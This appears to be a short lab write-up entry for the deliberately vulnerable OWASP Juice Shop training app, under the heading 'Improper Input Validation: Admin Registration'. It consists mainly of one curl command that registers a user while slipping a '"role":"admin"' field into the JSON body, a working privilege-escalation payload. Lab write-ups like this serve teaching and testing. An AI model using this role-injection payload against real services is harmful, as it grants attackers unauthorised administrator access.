 # Improper Input Validation

## Admin Registration

Register as a user with administrator privileges

```bash
# register a user > inspect the response > add to the payload`"role":"admin"`
curl -sS http://juiceshop:3000/api/Users/ -H 'Content-Type: application/json' --data-raw $'{"email":"a@a.com","password":"12345","passwordRepeat":"12345","securityQuestion":{"id":3,"question":"Mother\'s birth date? (MM/DD/YY)","createdAt":"2023-11-07T08:41:38.130Z","updatedAt":"2023-11-07T08:41:38.130Z"},"securityAnswer":"000000","role":"admin"}' | jq
```
